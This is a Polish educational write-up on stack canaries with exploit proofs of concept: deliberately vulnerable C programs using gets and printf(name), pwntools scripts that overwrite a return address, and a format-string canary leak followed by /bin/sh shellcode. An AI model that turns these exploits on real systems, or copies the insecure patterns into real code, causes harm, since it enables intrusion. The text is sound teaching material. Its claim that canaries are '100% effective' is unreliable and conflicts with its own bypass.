








# Stack canary

### 1. Opis

Kanarek jest mechanizmem zabezpieczenia stosu. Stara się on zapobiegać zmianie wykonania programu za pomocą nadpisywanie elementów na stosie.

Stack canary albo security cookie to losowa wartość zapisywana na stosie przed adresem powrotu. Przed powrotem wartość ta jest sprawdzana. Jeżeli uległa zmianie przerywane jest działanie programu.

Wartości kanarka mogą być generowane w różny sposób. Mogą to być wartości zawierające elementy takie jak `null byte` czy `terminator chars`, aby zapobiegać nadpisaniu kanarka po nadpisaniu powrotu. W przypadku przepełnienia bufora zapisanie takich znaków jest dość trudne przy użyciu danych funkcji.

Dość popularną strategią jest generacja kanarka w losowy sposób przy inicjalizacji programu i zapis go w zmiennych globalnych. Oczywiście odczytanie takiego kanarka może być możliwe dlatego często jest on paddowany pustymi stronami.

Istnieją też tak zwane `XOR canaries`, czyli kanarki, których wartość to XOR paru losowo wybranych wartości z programu. Dzięki temu nadpisanie takiego kanarka graniczy z cudem.

Jest to defaultowa opcja kompilatora `gcc`, można ją wyłączyć flagą `-fno-stack-protector`. Ochronę funkcji z buforami większymi niż 8 bajtów i używającymi `alloca` włącza `-fstack-protector`. A ochronę wszystkich funkcji włącza `-fstack-protector-all`.

Podobnie zachowuje się `clang`.

Kanarek sprawdza się przeciwko atakom, które nadpisują adres powrotu - ataki typu `ret2libc`, `ropchain` są bezużyteczne bez znajomości kanarka. 

Kanarek nie chroni przed atakami typu `format string`.

### 2. Wygląd w assemblerze

Koniec wywołania funkcji z kanarkiem wygląda następująco.



Do rejestru `eax` ładowany jest aktualny kanarek funkcji. Następnie odejmowany jest on od zapisanego kanarka w `gs:0x14`. W przypadku zgodności kanarków wartość odejmowania to zero.

Wtedy ustawiana jest flaga zero i instrukcja `je` przeskakuję `call` do funkcji mówiącej o błędzie kanarka i wywołanie kończy się normalnie. W odwrotnym przypadku wywoływana jest funkcja, która obsługuje błąd.

### 3. Proof of concept - prosta zmiana wykonania

Kanarek jest dobra metodą obrony przed atakami typu `ASLR & PIE/exploit_1`. Ataki bazujące na nadpisaniu adresu powrotu są dobrze łatane przez kanarka stosu. Jest to lepsza metoda niż ASLR, bo w 100% skuteczna.

Oczywiście wyciek pamięci (`arbitrary read`) pozwala bardzo łatwo obejść kanarka po prostu nadpisując w jego miejsce odpowiednią wartość.

Kod aplikacji podatnej jest taki sam, jaki  i exploit.

- **PIE & ASLR**: wyłączony - opcje te pozwalają na stały adres funkcji - ułatwiają exploitacje.
- **CANARY**: wyłączony - jest to idea tego exploitu.

```c
// gcc vuln.c -no-pie -std=c99 -m32 -fno-stack-protector -z execstack -w -o vuln.o
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

void secret() {
    system("sh");
}

void ask_for_name()
{
    char name[12] = {0};
    puts("What's your name?");
    gets(name);
    printf("Hi %s!\n", name);
}

int main()
{
    ask_for_name();
return 0;
}
```

Exploit ten był już opisywany w poprzednich rozdziałach. Ładuje on pod adres powrotu adres funkcji `secret`

Exploit:
```python
from pwn import *

p = process("./vuln.o")

p.readuntil("What's your name?\n")


name = b'AAAABBBBCCCCDDDDEEEEFFFF' # inject aaaas till eip
name += b'\xc9\x61\x55\x56' 

p.sendline(name)

p.interactive()

```

W tym przypadku przy kompilacji bez kanarka udaje się dostać shell.



A w przypadku kompilacji z kanarkiem nie udaje się - widać tutaj błąd, który wyrzucił kanarek.




### 4. Proof of concept - leak kanarka i wykonywalny stos

Istotą tego exploitu będzie pozyskanie wartości kanarka za pomocą format string.

Kod aplikacji podatnej: 

```c
#include <stdio.h>

int main(int argc, char *argv[]) {
    char name[16];
    char purpose[64];

    gets(name);
    printf("Hi!");
    printf(name);
    printf("\n");
    gets(purpose);
    printf("%s",purpose);
    return 0;

}
```

Schemat działania:
- Zlokalizować, którym argumentem pozycyjnym na stosie jest kanarek.
- Zlokalizować element na stosie, który ma stały adres względem drugiego bufora.
- Za pomocą otrzymanego adresu oraz wartości kanarka zbudować shellcode.

Aby otrzymać argumenty bedę używał exploitu format string. Konstrukcja `%15$x` pobierze 15 element ze stosu, liczbę mogę podmieniać.

Podpinam `gdb` do procesu aplikacji i szukam adresu do zatrzymania wykonania. Wybieram adres przed sprawdzeniem kanarka. Widzę też gdzie powinien znajdować się kanarek -`[ebp-0xc]`.



W `gdb` wyświetlam stos i lokalizuję kanarka.



Kanarek znajduję się w zamierzonym miejscu. Dwa adresy wyżej widzę również adres, który wygląda na adres, który może posłużyć do znalezienia offsetu naszego bufora. Upewniam się ze adres ten jest dobry kilkukrotnie wywołując program i sprawdzając offset od bufora - jest on stały i wynosi `0x108`.

Teraz strzelam w losowy argument na stosie i staram się ustalić gdzie jest kanarek i mój adres.

```c
import * from pwn

p = process("./vuln_2.o")

first_payload = "%20$x%21$x"
```



Otrzymuje dwa adresy, które znajduję na stosie.



Kanarek znajduje się na 31 pozycji, a nasz adres na 29. Od drugiego adresu muszę odjąć `0x108` i dodać offset wygenerowany przez elementy przed shellcode.

Gotowy shellcode bedzie wyglądał tak:
```
'aaaa...'+kanarek+adres_shellcode+shellcode
```
Piszę exploit:

```python
from pwn import *

p = process("./vuln_2.o")

first_payload = ",%29$x,%31$x"
p.sendline(first_payload) # wysylam format string do leakowania informacji
gdb.attach(p)
answer = p.recvline().decode("utf-8").split(',') # formatuje informacje
canary = int(answer[2],16) 
offset_address = int(answer[1],16)
buffor_address = offset_address - 0x108 
stuffed_canary = b'a'*64+p32(canary)

shellcode_address = buffor_address + len(stuffed_canary) +4
shellcode = b'\x31\xc9\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'

second_payload = stuffed_canary + p32(shellcode_address) + shellcode

p.sendline(second_payload)

p.interactive()

```

Został wywołany shell - exploit działa.



### 5. Proof of concept - GOT overwrite z format string

Opis tego exploita znajduje się w następnym rodziale, jest to exploit przed, którym kanarek nie jest w stanie ochronić. Kanarek w żaden sposób nie chroni przed atakami typu format string oraz atakami typu GOT.

### 6. Wnioski

Kanarek stosu jest dobrą metodą zabezpieczenia przed nadpisaniem adresu powrotu. Dobrą praktyką jest stosowanie go w funkcjach zawierających bufor domyślnie, używanie kanarka w każdej funkcji nie jest zalecane bez powodu.